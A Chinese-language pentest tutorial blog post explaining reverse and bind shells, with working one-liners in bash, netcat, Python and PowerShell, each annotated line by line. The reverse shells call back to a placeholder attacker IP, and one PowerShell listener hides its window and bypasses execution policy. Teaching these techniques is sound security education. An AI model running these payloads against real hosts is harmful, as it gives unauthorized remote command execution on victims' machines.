

+++
author = "Lulaide"
title = "Pentest shells&渗透远程终端"
date = "2024-08-19"
description = "一旦我们入侵了系统并利用漏洞远程执行受感染主机上的命令，我们通常需要一种与系统通信的方法，而不必继续利用相同的漏洞来执行每个命令。"
tags = [
    "渗透",
    "终端",
    "Linux"
]
categories = ["教程&文档"]
image = "image.png"
+++

>### 为什么需要这些shell？
>当我们通过某种途径能让目标执行任意代码时，为了更快速便捷的获取系统信息以提权和维持访问时，使用终端是最好的选择

## 1.终端的种类

|Type of shell|Method of Communication|
|:------------|:----------------------|
|**Reverse Shell**|Connects back to our system and gives us control through a reverse connection.|
|**Bind Shell**|Waits for us to connect to it and gives us control once we do.|

>其中反向shell最常用，适用于有网络连接的主机，我们只需带有公网IP的VPS即可，也是最推荐的方式
>绑定shell需要攻击者知道目标的公网IP或其他连接方式，而我们自己不需要公网IP

## 2.1 反向shell

>反向shell就是让目标主机连接我们的主机，接收我们发出的指令，并把结果发送给我们，实现如终端一样的功能，但是这样得到的终端并不是全功能终端，无法使用<kbd>TAB</kbd>键补全命令以及使用方向键查看命令历史




## 2.2 反向shell实现步骤
* ##### 首先我们的主机需要监听一个端口，以进行终端信息的传输
>这里的命令我使用netcat的简写nc
```bash
nc -lvnp 8888
```
使用netcat监听8888端口
|参数|英文全称|含义|
|:---|:---|:---|
|**-l**|**Listen mode**|监听，并等待目标连接|
|**-v**|**Verbose**|详细模式，以便我们知道何时收到连接|
|**-n**|**Numeric-only IP addresses**|在处理 IP 地址和端口时不进行 DNS 解析|
|**-p**|**Port**|指定netcat监听的端口|

* ##### 然后让目标主机连接我们，发送shell的信息，并接收我们的命令
>使用`1.1.1.1`作为演示IP，使用时替换为自己的公网IP

###### Linux bash
```bash
bash -c 'bash -i >& /dev/tcp/1.1.1.1/8888 0>&1'
```
- **`bash -c`**：这部分指示 Bash 执行后续的字符串作为命令。

- **`bash -i >& /dev/tcp/1.1.1.1/8888 0>&1`**：这是 Bash 将要执行的命令字符串，具体包含以下几个组件：
    - **`bash -i`**：启动一个交互式的 Bash shell。这里的 -i 选项代表“interactive”，意味着 shell 会保持与用户的交互。
    - **`>& /dev/tcp/1.1.1.1/8888`**：这部分是重定向操作，它将 Bash 的标准输出（即 stdout，文件描述符为 1）重定向到 `/dev/tcp/1.1.1.1/8888`。这里的 `/ev/tcp/host/port` 是 Bash 中一个特殊的文件路径，用于创建 TCP 连接到指定的 IP 地址（此处为 1.1.1.1）和端口（此处为 8888）。
    - **`0>&1`**：这是另一个重定向操作，将标准输入（即 stdin，文件描述符为 0）重定向到已经被重定向的标准输出（stdout）。这意味着所有接收到的输入（从 TCP 连接来的）都将被发送到交互式 shell。
###### Linux netcat
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 8888 >/tmp/f
```
- **`rm /tmp/f`**: 这个命令尝试删除 `/tmp/f` 这个文件。这是为了确保在创建命名管道（FIFO）之前，该路径上没有已存在的文件或管道。

- **`mkfifo /tmp/f`**: 创建一个名为 `/tmp/f` 的命名管道。命名管道是一种特殊类型的文件，它在文件系统中存在并允许进程间通信（IPC）。数据写入该管道可以被其他进程读取。

- **`cat /tmp/f`**: 这个命令读取 `/tmp/f` 管道中的内容。由于 `/tmp/f` 是一个管道，`cat` 命令将会阻塞（等待），直到有数据可以读取。

- **`| /bin/sh -i 2>&1`**: `cat` 命令的输出（即从 `/tmp/f` 读取的数据）通过管道（`|`）传递给 `/bin/sh -i`。这里，`/bin/sh -i` 启动一个交互式 shell，`2>&1` 将标准错误（stderr，文件描述符为 2）重定向到标准输出（stdout，文件描述符为 1），这样错误信息也会发送到 netcat。

- **`| nc 1.1.1.1 8888`**: 交互式 shell 的输出再次通过管道传递给 `nc`（netcat），这个命令尝试连接到 IP 地址为 `1.1.1.1`、端口号为 `8888` 的服务器。这样，shell 的输出（包括错误输出）都被发送到远程服务器。

- **`>/tmp/f`**: 最后，netcat 的输出（即来自远程服务器的任何输入）被重定向到 `/tmp/f` 管道。这意味着远程服务器可以发送命令回这个 shell，命令将被执行，并且结果返回到远程服务器。
###### Powershell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',8888);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

- **`-nop`**：表示 `-NoProfile`，启动 PowerShell 时不加载用户的配置文件，这有助于减少加载时间并避免执行任何可能在配置文件中定义的自动运行脚本。

- **`-c`**：表示 `-Command`，后面跟随的字符串将被 PowerShell 解释并执行。

**参数**
- **`$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',8888);`**：
  - 创建一个 TCP 客户端对象，连接到 IP 地址为 `1.1.1.1` 的机器，端口 `8888`。这是远程服务器的地址和监听端口。

- **`$s = $client.GetStream();`**：
  - 获取 TCP 连接的数据流，用于后续的读写操作。

- **`[byte[]]$b = 0..65535|%{0};`**：
  - 初始化一个大小为 65536 字节的字节数组 `$b`，用于存储从数据流中读取的数据。

- **`while(($i = $s.Read($b, 0, $b.Length)) -ne 0){...}`**：
  - 在循环中读取数据流 `$s` 到数组 `$b`，直到没有数据可读（即 `$i` 不等于 0）。`$i` 是每次读取的字节数。

  - **`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);`**：
    - 将读取的字节数据转换成 ASCII 字符串 `$data`。

  - **`$sb = (iex $data 2>&1 | Out-String);`**：
    - 执行 `$data` 中包含的 PowerShell 命令（`iex` 是 `Invoke-Expression` 的别名，用于执行字符串中的代码），并将输出和错误一同捕获转换为字符串。

  - **`$sb2 = $sb + 'PS ' + (pwd).Path + '> ';`**：
    - 将执行结果 `$sb`、当前 PowerShell 工作路径和提示符合并，形成新的字符串 `$sb2`。

  - **`$sbt = ([text.encoding]::ASCII).GetBytes($sb2);`**：
    - 将字符串 `$sb2` 转换为 ASCII 字节流，准备发送回远程服务器。

  - **`$s.Write($sbt,0,$sbt.Length);`**：
    - 将字节流 `$sbt` 写入到数据流 `$s`，发送回服务器。

  - **`$s.Flush();`**：
    - 清空缓冲区，确保所有数据被发送。

- **`$client.Close();`**：
  - 关闭 TCP 客户端连接。

## 3.1绑定shell
>绑定shell是在目标服务器开启一个端口，等待我们去连接的shell
>和常规ssh相比，连接时不用输入密码，是一个暴露的连接入口
>和反向shell一样，绑定shell也不是全功能的shell


## 3.2绑定shell实现步骤
* ##### 和反向shell相反，我们先要在目标机器上运行命令

###### Linux bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 8888 >/tmp/f
```

- **`rm /tmp/f`**: 删除名为 `/tmp/f` 的文件，以确保在创建新的命名管道前，该路径上没有遗留的文件或管道。

- **`mkfifo /tmp/f`**: 创建一个名为 `/tmp/f` 的命名管道。命名管道允许在进程间传递信息，即使这些进程没有直接的父子关系。

- **`cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 8888 > /tmp/f`**:这个命令串通过几个步骤建立了一个监听连接，允许远程命令执行：
    - **`cat /tmp/f`**:读取命名管道 `/tmp/f` 的内容。`cat` 命令会持续读取数据，直到管道中没有更多数据可读。
    - **`/bin/bash -i 2>&1`**:`bash -i` 启动一个交互式 shell。`2>&1` 是一个重定向，它将标准错误合并到标准输出，这意味着错误信息和正常输出都将通过管道传递。
    - **`nc -lvp 8888`**:`nc` (netcat) 启动并监听端口 `8888` 上的传入连接。选项 `-l` 表示监听模式，`-v` 表示详细输出，`-p 8888` 指定使用端口 `8888`。
    - **`> /tmp/f`**:将 `netcat` 收到的任何输入重定向回 `/tmp/f` 管道，这样数据就可以再次被 `cat` 读取并送入 `bash` 执行。

###### Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",8888));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

- **`import socket as s, subprocess as sp`**:
   - 导入 `socket` 库作为 `s`，用于网络通信。
   - 导入 `subprocess` 库作为 `sp`，用于执行系统命令。

- **`s1=s.socket(s.AF_INET, s.SOCK_STREAM)`**:
   - 创建一个 TCP socket 对象 `s1`。

- **`s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1)`**:
   - 设置 socket 选项，允许重新使用本地地址和端口（这在 socket 被关闭后立即重新绑定端口时非常有用）。

- **`s1.bind(("0.0.0.0", 8888))`**:
   - 绑定 socket 到所有可用接口（`0.0.0.0`）的 8888 端口。

- **`s1.listen(1)`**:
   - 启动 socket 的监听模式，准备接受连接请求。参数 `1` 指定了系统允许挂起的最大连接数。

- **`c, a = s1.accept()`**:
   - 等待并接受一个连接。`c` 是新的 socket 对象，用于与客户端通信；`a` 是连接的地址信息。

- **`while True:`**:
   - 开启一个无限循环，持续监听并执行从客户端接收到的命令。

   - **`d = c.recv(1024).decode()`**:
     - 接收客户端发送的数据，最多 1024 字节，并将其解码成字符串。

   - **`p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE)`**:
     - 使用 `subprocess.Popen` 执行接收到的命令 `d`。`shell=True` 允许命令在 shell 中执行。`stdout`, `stderr`, 和 `stdin` 都被重定向，这样脚本可以捕获命令的输出和错误信息。

   - **`c.sendall(p.stdout.read() + p.stderr.read())`**:
     - 读取命令的输出和错误信息，并将它们发送回客户端。

###### Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]8888; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

- **`-NoP`**：相当于 `-NoProfile`，在启动时不加载 PowerShell 用户的配置文件。
- **`-NonI`**：相当于 `-NonInteractive`，防止 PowerShell 提示用户交互。
- **`-W Hidden`**：相当于 `-WindowStyle Hidden`，使 PowerShell 窗口在执行时保持隐藏。
- **`-Exec Bypass`**：绕过执行策略限制，允许执行未签名的脚本。

**参数**
- **`$listener = [System.Net.Sockets.TcpListener]8888; $listener.start();`**：
   - 创建一个 `TcpListener` 对象监听本地的 8888 端口，并启动监听。这将使脚本能够接受来自指定端口的入站 TCP 连接。

- **`$client = $listener.AcceptTcpClient();`**：
   - 接受一个连接请求，创建一个 `TcpClient` 对象，用于与客户端通信。

- **`$stream = $client.GetStream();`**：
   - 获取与客户端关联的网络流，用于数据的发送和接收。

- **`[byte[]]$bytes = 0..65535|%{0};`**：
   - 初始化一个字节数组，用于存储从网络流中读取的数据。

- **`while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){...}`**：
   - 持续从流中读取数据，直到没有更多数据可读。这里 `$i` 是每次读取的字节数。

   - **`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);`**：
     - 将字节数组解码为 ASCII 字符串，这里的 `$data` 包含了远程发送的命令。

   - **`$sendback = (iex $data 2>&1 | Out-String);`**：
     - 执行接收到的命令（`iex` 即 `Invoke-Expression`），并将命令输出和错误信息转换为字符串。

   - **`$sendback2 = $sendback + "PS " + (pwd).Path + " ";`**：
     - 将命令的输出与当前 PowerShell 工作路径合并，形成新的返回字符串。

   - **`$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);`**：
     - 将返回的字符串编码为 ASCII 字节，准备发送回客户端。

   - **`$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();`**：
     - 将编码后的字节写回网络流，并清空缓冲区确保所有数据都被发送。

- **`$client.Close();`**：
   - 关闭客户端连接。

* ##### 在我们的主机上和目标主机建立连接
```bash
nc 1.1.1.1 8888
```


## 4.参考文献及来源
- [**HTB Academy**](https://academy.hackthebox.com/)
- [**InternalAllTheThings**](https://swisskyrepo.github.io/InternalAllTheThings/)
- [**ChatGPT**](https://chatgpt.com/)


>欢迎指出错误，以便更正!
>Welcome to comment!